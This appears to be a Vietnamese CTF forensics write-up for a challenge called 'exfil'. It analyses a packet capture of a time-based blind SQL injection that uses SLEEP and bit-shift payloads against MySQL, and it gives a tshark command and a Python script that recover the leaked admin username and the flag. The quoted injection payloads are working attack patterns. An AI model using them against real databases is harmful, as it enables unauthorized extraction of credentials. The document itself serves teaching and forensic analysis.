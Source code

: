 # exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	- ASCII (char): chuyển kí tự sang mã ASCII
	![ascii](ASCII.png)
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy ví dụ 3 gói tin delay khoảng 3 (s), attacker dùng để brute database_name
	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 6 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 5 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 2 & 1) * 3)

			97 >> 6  & 1 == 1 ==> SLEEP(3)
			97 >> 5  & 1 == 1 ==> SLEEP(3)
			97 >> 2  & 1 == 1 ==> SLEEP(3)
	```
		

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker (trong TH đang xét khoảng 2-3s) có thể dễ dàng bruteforce được database_name.

- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)

	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)
![5](5.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name'] 
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp)
		if re.search('SELECT user',temp):
			user.append(_regextemp)
		else:
			passwd.append(_regextemp)

def rev(arr): # vd: arr = [6,5,2] ==> chr((1 << 6) + (1 << 5) + (1 << 2)) = 'a'
	result = 0
	for i in arr:
		result += (2 ** int(i)) # 1 << i tương đương với 2 mũ i
	return chr(result)

def Decode(msg):
	current = 1
	result = ''
	temp = []
	for arr in msg:
		if(int(arr[0][0]) == current):
			temp.append(arr[0][1])
		else:
			result += rev(temp)
			temp = [] # reset temp
			temp.append(arr[0][1])
			current+=1
		if(arr == msg[-1]): 
			result += rev(temp)

	return result


print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```